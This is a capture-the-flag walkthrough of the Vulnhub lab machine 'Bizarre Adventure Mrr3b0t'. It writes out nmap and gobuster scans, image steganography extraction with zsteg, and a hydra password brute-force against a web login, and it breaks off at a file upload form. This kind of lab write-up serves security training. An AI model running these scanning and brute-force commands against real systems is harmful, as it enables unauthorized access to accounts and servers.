 ```yaml
---
title: Vulnhub - Bizarre Adventure Mrr3b0t
description: My writeup on Bizarre Adventure Mrr3b0t box.
categories:
 - vulnhub
tags: vulnhub hydra stego
---
```


![](https://images-na.ssl-images-amazon.com/images/I/71Z2amvT-tL._AC_SL1062_.jpg)

You can find the machine there > [Bizarre Adventure Mrr3b0t](https://www.vulnhub.com/entry/bizarre-adventure-mrr3b0t,561/){:target="_blank"}

## Summary

This box is really similar to Bizarre Adventure Sticky Fingers. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.13
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 01:34 EEST
Nmap scan report for mrr3b0t.zte.com.cn (192.168.1.13)
Host is up (0.00031s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
5355/tcp open  llmnr
MAC Address: 08:00:27:77:A5:67 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.42 seconds
$ nmap -p 22,53,80,5355 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 01:34 EEST
Nmap scan report for mrr3b0t.zte.com.cn (192.168.1.13)
Host is up (0.00042s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:b7:f5:6b:0d:58:1d:7b:58:7d:1a:99:fb:b1:8f:04 (RSA)
|   256 66:b4:4b:40:e6:c9:76:93:31:aa:fc:ff:9a:40:a9:f9 (ECDSA)
|_  256 55:c6:b2:01:0f:16:1c:68:96:e2:bb:b1:fe:ff:59:c2 (ED25519)
53/tcp   open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Eskwela Template
5355/tcp open  llmnr?
```

We can see a static website, let's run `gobuster` on it.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html                
/images (Status: 301)
/index.html (Status: 200)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/fonts (Status: 301)
/administrator (Status: 301)
```

`/administrator` has a login panel, `/images` has a `flag.txt.txt` file in with a message:

```
$ curl http://$ip/images/flag.txt.txt
Almost!

Did you notice something hidden?
```

Hmm, then i noticed that under `/images` there is a `hidden.png` image. Ugh stego stuff! Why!? :disappointed: Anyway i tried the basics like `strings` but nothing. It's `.png` so we can't run `steghide` etc, one option left that is [Zsteg](https://github.com/zed-0xff/zsteg){:target="_blank"}! 

You can install it by:

```
$ gem install zsteg
```

```
$ zsteg -a hidden.png 
b1,r,lsb,xy         .. file: old packed data
b1,rgb,lsb,xy       .. text: "Did you find the message? Take the Mrrobot user and break your password, just don't think too much!"
```

We have a user! `mrrobot` let's fire up hydra! :fire:

```
$ hydra -l mrrobot -P /usr/share/wordlists/rockyou.txt $ip http-post-form "/administrator/index.php:username=mrrobot&pass=^PASS^:Login Failed"

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.1.13:80/administrator/index.php:username=mrrobot&pass=^PASS^:Login Failed
[80][http-post-form] host: 192.168.1.13   login: mrrobot   password: secret
```

We're in as `mrrobot:secret` & we can see an upload form:

![](https://i.imgur.com/Lw6pd9i.png)


